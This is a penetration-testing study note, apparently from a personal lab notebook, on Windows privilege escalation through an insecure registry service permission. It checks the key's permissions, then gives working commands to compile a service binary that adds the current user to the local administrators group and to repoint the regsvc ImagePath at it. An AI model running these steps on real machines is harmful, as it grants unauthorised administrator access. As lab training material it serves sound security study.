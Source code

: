 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

 **Detection**

Open PowerShell prompt and type: 

```command prompt - windows
powershell -ep bypass
```

```powershell - windows
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl  
```

Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

![[Pasted image 20220207105736.png]]

```
.\winPEASx64.exe servicesinfo
```

![[Pasted image 20220609133644.png]]

**Exploitation**

Copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Copy the generated file x.exe, to the Windows VM.

[[4._File Transfers]]

Place x.exe in `C:\Temp`.

Open command prompt at type: 

```command prompt - kali
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f  
```

In the command prompt type: 

```command prompt - kali
sc start regsvc
```

```command prompt - kali
sc start regsvc
```

[[___.Misc Commands#Restart host]]

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```command prompt - windows
net localgroup administrators
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
